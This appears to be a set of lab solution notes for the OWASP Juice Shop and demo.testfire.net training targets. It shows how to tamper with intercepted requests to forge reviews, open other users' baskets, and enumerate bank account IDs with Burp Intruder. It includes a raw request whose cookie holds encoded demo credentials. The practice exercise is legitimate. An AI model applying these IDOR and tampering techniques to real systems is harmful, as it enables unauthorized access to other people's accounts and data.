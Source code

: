# Access Controls

## Access the administration section of the store.
* Login and manually try URLS
* URL = http://localhost:3000/#/administration
* Or 
* view the juice-shop.min.js and find the /administration route in the js



## Get rid of all 5-star customer feedback.
Delete five-stars from the adminstration page

## Post some feedback or review in another users name.
### for review
* Intercept a review request http://localhost:3000/rest/product/23/reviews
* Modify json with different users email `{"message":"Fake Review","author":"morty@juice-sh.op"}`
### for feedback

Either edit input in the dom or intercept from `/api/Feedbacks/` with burp and change the `UserId` 


## IDOR Solutions

## Access someone else's basket. JuiceShop
* Add items to basket
* Intercept Request to view basket 
* http://localhost:3000/rest/basket/4
* IDOR change number to 1
* Other users basket is displayed

## Account History http://demo.testfire.net/bank/account.aspx
Use Burp Intruder
```
POST /bank/account.aspx HTTP/1.1
Host: demo.testfire.net
Content-Length: 23
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3488.0 Safari/537.36 autochrome/red
Origin: http://demo.testfire.net
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://demo.testfire.net/bank/main.aspx
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: amSessionId=15463717023; ASP.NET_SessionId=sek2c5bdxjyg4h45r5io3h45; amUserInfo=UserName=anNtaXRo&Password=RGVtbzEyMzQ=; amUserId=100116014; amCreditOffer=CardType=Gold&Limit=10000&Interest=7.9
Connection: close

listAccounts=10011601§40§

```
#### Intruder settings
* Sniper
* Payload Type Number
* from 40 to 99
* sort by length



